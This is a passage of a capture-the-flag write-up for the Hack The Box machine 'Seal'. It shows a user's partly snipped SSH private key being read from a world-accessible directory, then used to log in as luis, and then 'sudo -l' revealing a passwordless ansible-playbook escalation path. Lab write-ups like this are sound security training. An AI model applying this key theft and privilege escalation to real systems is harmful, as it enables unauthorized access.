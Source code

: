 ```text
tomcat@seal:/dev/shm$ ls -lsa
 596 -rw-r-----  1 tomcat tomcat  609578 Oct 10 21:22 pencer.gz
   0 drwxr-x---  7 tomcat tomcat     160 May  7 09:26 dashboard
1592 -rw-r-----  1 tomcat tomcat 1628160 Oct 10 21:22 pencer

tomcat@seal:/dev/shm$ cd dashboard/uploads/.ssh
tomcat@seal:/dev/shm/dashboard/uploads/.ssh$ ls -lsa
4 -rw-r----- 1 tomcat tomcat  563 May  7 06:10 authorized_keys
4 -rw------- 1 tomcat tomcat 2590 May  7 06:10 id_rsa
4 -rw-r----- 1 tomcat tomcat  563 May  7 06:10 id_rsa.pub

tomcat@seal:/dev/shm/dashboard/uploads/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs3kISCeddKacCQhVcpTTVcLxM9q2iQKzi9hsnlEt0Z7kchZrSZsG
<SNIP>
ueX7aq9pIXhcGT6M9CGUJjyEkvOrx+HRD4TKu0lGcO3LVANGPqSfks4r5Ea4LiZ4Q4YnOJ
u8KqOiDVrwmFJRAAAACWx1aXNAc2VhbAE=
-----END OPENSSH PRIVATE KEY-----
```

## User Access

We have the private key for luis, copy it to our clipboard then over to Kali and paste in to a blank file:

```text
┌──(root💀kali)-[~/htb/seal]
└─# nano id_rsa    

┌──(root💀kali)-[~/htb/seal]
└─# chmod 600 id_rsa
```

With the file prepared we can log in over SSH as luis:

```text
┌──(root💀kali)-[~/htb/seal]
└─# ssh -i id_rsa luis@seal.htb   
The authenticity of host 'seal.htb (10.10.10.250)' can't be established.
ECDSA key fingerprint is SHA256:YTRJC++A+0ww97kJGc5DWAsnI9iusyCE4Nt9fomhxdA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'seal.htb,10.10.10.250' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

Last login: Fri May  7 07:00:18 2021 from 10.10.14.2
luis@seal:~$
```

After grabbing the user flag we can look for our escalation path. I found it straight away:

```text
luis@seal:/dev/shm$ sudo -l
Matching Defaults entries for luis on seal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User luis may run the following commands on seal:
    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'